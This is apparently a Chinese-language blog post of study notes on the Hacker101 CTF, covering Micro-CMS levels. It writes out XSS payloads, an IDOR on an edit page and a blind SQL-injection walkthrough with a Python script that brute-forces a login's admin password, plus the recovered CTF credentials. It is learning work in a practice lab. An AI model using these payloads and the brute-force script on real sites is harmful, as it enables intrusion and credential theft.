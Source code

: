 ```yaml
---
title: "Hacker101"
date: 2019-10-11T16:31:29+08:00
showDate: true
draft: false
tags: ["security","hacker", "ctf"]
categories: ["security"]
---
```


# hacker101学习笔记

## 前言

记录自己在hacker101 ctf的学习笔记


### 第一关 	A little something to get you started (1/1 flag)

第一次接触ctf没什么经验， 各种看网页源代码，看http请求有点像无头苍蝇，后来看了下hint `Take a look at the source for the page`,然后发现了一个没有出现在页面里的style标签

```html
<style>
	body {background-image: url("background.png");}
</style>
```

试了下访问http://domain.com/background.png，报了404，然后试了试在当前目录加上/background.png，解决


### 第二关 	Micro-CMS v1 （4/4 flag) 

#### flag 1

有了第一关的经验，我大概懂了一些套路，第二关给了一个input框一个textarea标签

![2-1](./2-1.png)

大概猜出来应该是考xss，现在input框里试了一下`<script>alert('xss')</script>`，爆出了第一个flag

![2-2](./2-2.png)

#### flag 2

接着在textarea试了试`<script>alert('xss')</script>`, 虽然提交的是script， 看起来是后端把script替换成scrubbed。 

然后试了一下`<BODY onload="alert('XSS')">`，成功爆出flag

![2-3](./2-3.png)

既然是script被过滤的，那就再试试img标签吧。textarea里写了`<IMG SRC="" onerror="alert('XSS')">`，但是好像和上一个算同一个flag

![2-4](./2-4.png)


#### flag 3

在textarea标签里试了很多种xss，但是flag都是一样的，那看起来接下来的问题就不是考xss了。
里面有一个创建page的页面，试着创建了一个page发现创建出来的page的id好像不连续（初始的两个是1、2，创建的是9），试了下访问`/page/3`，报not found，再试了试`/page/4`，报forbidden，看来这里应该有问题，因为每个page都有一个对应的eidt页面`/page/edit/page_id`，试着访问`/page/edit/4`，出了flag

![2-5](2-5.png)

#### flag 4

第四个flag就有点顺了，访问完`/page/edit/4`，想看看有没有注入点，然后试了试`/page/edit/4'`，最后一个flag就这样出了。

![2-6](2-6.png)

#### 参考资料

[常见xss过滤](https://damit5.com/2017/10/15/XSS-%E7%BB%95%E8%BF%87%E5%B8%B8%E7%94%A8%E8%AF%AD%E5%8F%A5/)

### 第三关 Micro-CMS v2 （1/3 flag）

#### flag 1 

这一关一进来就说这是一个之前CMS的升级版本，修复的之前的安全问题，现在edit需要账号密码登录了，看起来是考sql注入吧。
试了试用户名框输入`'`提交，直接报错

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")

```

从这里大概能看出一些信息比如执行的sql语句是

```sql
SELECT password FROM admins WHERE username='';
```

应该是查用户名的密码然后跟提交的比对，然后数据库是mariadb, 表名是admins

接着试

```sql
' or 1 = 1 #
```

然后提示是invalid passsword， 看起来是username被跳过但是密码因为为空所以错误了。

继续尝试

```sql
' or 1 = 1 and 1 > (select count(*) from admins) #
```

返回了unkonwn user， 说明` 1 > (select count(*) from admins) `为`false`，所以admins表里面只有不多于一条数据，接下来用length猜字段长度

```sql
' or 1 = 1 and 1 > (select count(*) from admins where length(username) = 6) #
' or 1 = 1 and 1 > (select count(*) from admins where length(password) = 6) #
```

说明username和password长度都是6

然后是猜每个位置的字母

```sql
' or 1 = 1 and 1 >  (select count(*) from admins where left(username, 1) = 'a')#
```

手动尝试的话也要几百次，于是尝试下用python写个脚本，核心代码如下，功能为检测某个位置的字母是什么

```python
def get_username_word(idx, a):
    '''

    :param idx: 位置
    :param a: 字母
    :return:
    '''
    url = "http://35.227.24.107/ff1706e3ac/login"
    username = "' or 1 = 1 and 1 >  (select count(*) from admins where left(password, {}) = '{}')#".format(idx, a)
    # username = "mollie"
    # password = "jeanne"
    password = ""

    data = {
        "username": username,
        "password": ""
    }
    r = requests.post(url, data=data)
    if not re.search('Invalid password', r.text):
        print(idx, "is", a)
        return True
    else:
        print(idx, "is not", a)
    return False
```

最后跑出结果

```
    # username = "mollie"
    # password = "jeanne"
```

登陆后拿到flag

![2-7](2-7.png)




未完待续~



